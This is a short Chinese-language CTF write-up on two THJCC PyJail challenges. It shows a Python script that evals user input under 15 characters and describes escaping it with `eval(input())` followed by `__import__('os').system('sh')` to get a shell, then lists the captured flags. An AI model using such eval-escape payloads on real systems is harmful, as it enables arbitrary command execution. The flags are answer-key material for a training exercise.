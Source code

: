 ```python=

```

會發現只要能跳過就可以
所以只要輸入`eval(input())`
然後拿到存取的方式`__import__('os').system('sh')`
![image](https://hackmd.io/_uploads/HySEzPwMR.png)
這樣就拿到了

> FLAG:THJCC{Use_M2g1c_f2un3ti0n_in_P9Ja1l!!}
> THJCC CTF

---

## PyJail-1

```python=
WELCOME='''
 ____            _       _ _
|  _ \ _   _    | | __ _(_) |
| |_) | | | |_  | |/ _` | | |
|  __/| |_| | |_| | (_| | | |
|_|    \__, |\___/ \__,_|_|_|
       |___/
'''

def main():
    try:
        print("-"*30)
        print(WELCOME)
        print("-"*30)
        print("Try to escape!!This is a jail")
        print("I increased security!!!")
        a=input("> ")
        if len(a)<15:
            eval(a)
        else:
            print("Don't escape!!")
    except:
        print("error")
        exit()

if __name__ == '__main__':
    main()
```

感覺相較上一題變複雜了，但是用同一個策略還是行的通
![image](https://hackmd.io/_uploads/ryCNU3DzR.png)

> FLAG:THJCC{Inp3t_b9p2sss_lim1t_1n+p3j2i1!}
> THJCC CTF

